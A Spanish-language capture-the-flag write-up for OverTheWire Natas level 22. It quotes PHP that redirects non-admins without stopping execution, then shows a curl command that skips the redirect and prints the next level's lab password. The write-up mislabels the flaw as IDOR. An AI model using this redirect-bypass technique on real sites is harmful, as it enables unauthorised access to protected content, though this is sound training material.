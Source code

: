 # Natas 22

#### URL: http://natas22.natas.labs.overthewire.org/
#### Credenciales: natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz

Si el parametro revelio existe en la peticion GET entonces se revela la contraseña:
```php
<?php
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

Sin embargo cuando no se es administrador se devuelve la cabecera Location:
``` php
if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password

    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
```

![2025-03-20-203328_765x237_scrot](https://github.com/user-attachments/assets/eea880d5-aa2d-4009-af00-f47560f2578e)

Esto lo que provoca una rapida redireccion pero hay una vulnerabilidad IDOR porque primero se visita la ruta en donde se muetra la contraseña independientemente de si se es admin o no.

Podemos evitar seguir la redireccion con curl:
``` bash
curl -u natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz http://natas22.natas.labs.overthewire.org/index.php?revelio=1 --max-redirs 0


<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">

You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

`natas23:dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs`
